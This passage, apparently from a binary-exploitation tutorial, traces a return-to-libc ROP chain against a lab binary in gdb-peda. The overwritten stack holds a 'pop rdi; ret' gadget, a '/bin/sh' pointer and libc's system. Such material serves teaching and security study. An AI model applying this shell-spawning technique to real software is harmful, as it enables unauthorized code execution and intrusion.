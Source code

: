 ```
   0x40080c <trustMeIAmAnEngineer+72>:	call   0x400600 <__stack_chk_fail@plt>
   0x400811 <trustMeIAmAnEngineer+77>:	leave  
=> 0x400812 <trustMeIAmAnEngineer+78>:	ret    
   0x400813 <main>:	push   rbp
   0x400814 <main+1>:	mov    rbp,rsp
   0x400817 <main+4>:	sub    rsp,0x10
   0x40081b <main+8>:	mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904a8 --> 0x400903 (<__libc_csu_init+99>:	pop    rdi)
0008| 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
0016| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0024| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
0032| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0040| 0x7ffdc2a904d0 --> 0x0 
0048| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0056| 0x7ffdc2a904e0 --> 0x135244ca0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```

We can see that all of our final payload is located on the stack.  
When executing the `ret` instruction the next value on the stack is popped and put into `RIP`.  
This will be our `pop rdi; ret` gadget.  
The top of the stack, the `RSP`, is changed accordingly to point to the next value on the stack, which is the pointer to our shell `/bin/sh` as well.  

```
[----------------------------------registers-----------------------------------]
[...]
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
RIP: 0x400903 (<__libc_csu_init+99>:	pop    rdi)
[...]
[-------------------------------------code-------------------------------------]
=> 0x400903 <__libc_csu_init+99>:	pop    rdi
   0x400904 <__libc_csu_init+100>:	ret    
   0x400905:	nop
   0x400906:	nop    WORD PTR cs:[rax+rax*1+0x0]
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
0008| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0016| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
0024| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0032| 0x7ffdc2a904d0 --> 0x0 
0040| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0048| 0x7ffdc2a904e0 --> 0x135244ca0 
0056| 0x7ffdc2a904e8 --> 0x400813 (<main>:	push   rbp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```
